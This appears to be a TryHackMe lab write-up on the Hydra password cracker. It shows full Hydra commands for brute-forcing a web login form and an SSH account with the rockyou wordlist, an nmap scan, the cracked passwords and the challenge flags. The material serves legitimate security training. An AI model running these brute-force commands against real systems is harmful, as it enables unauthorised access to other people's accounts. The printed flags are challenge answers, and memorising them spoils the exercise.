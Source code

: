 # What is Hydra
- Hydra is a brute force online password cracking program. 
- It is a tool for quickly hacking system login passwords. 
- Hydra can automate the process of guessing passwords across different authentication services. 
- Supported protocols include Asterisk, AFP, Cisco AAA, FTP, HTTP, HTTPS, IMAP, MySQL, SSH, and many more. 
- For details on protocol options, refer to the Kali Hydra tool page. 
- A strong password is important; weak passwords are easy to guess. 
- Common passwords and default logins (like admin:password) should be changed. 

# Installing Hydra 
- Hydra is pre-installed on the AttackBox; access it via the Start AttackBox button. 
- It is also available on the in-browser Kali machine as part of all Kali distributions. 
- To use it on another Linux distribution (like Ubuntu or Fedora), use apt install hydra or dnf install hydra. 
- Hydra can also be downloaded from the official THC-Hydra repository.

# Try Hack Me Challenge

So for the first part I used the following command:
```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt MACHINE_IP http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

Password found: sunshine

Now accesing the app we get the flag: 
THM{2673a7dd116de68e85c48ec0b1f2612e}

For the second part, we need to bruteforce the SSH password. So first ill use nmap to find the server (Probably Port 22) but to be sure.

Using:
```bash
nmap -sV -sC MACHINE_IP -vv
```
We get:
![Try Hack Me](image.png)

Now we know ssh its available we just have to bruteforce the ssh password of molly's.
Using:
```bash
 hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.102.117 -t 4 ssh
```
We get the following password: butterfly
accessing to molly ssh with:
ssh molly@MACHINE_IP
password:butterfly
cat flag2.txt

we get the following: THM{c8eeb0468febbadea859baeb33b2541b}

![alt text](image-1.png)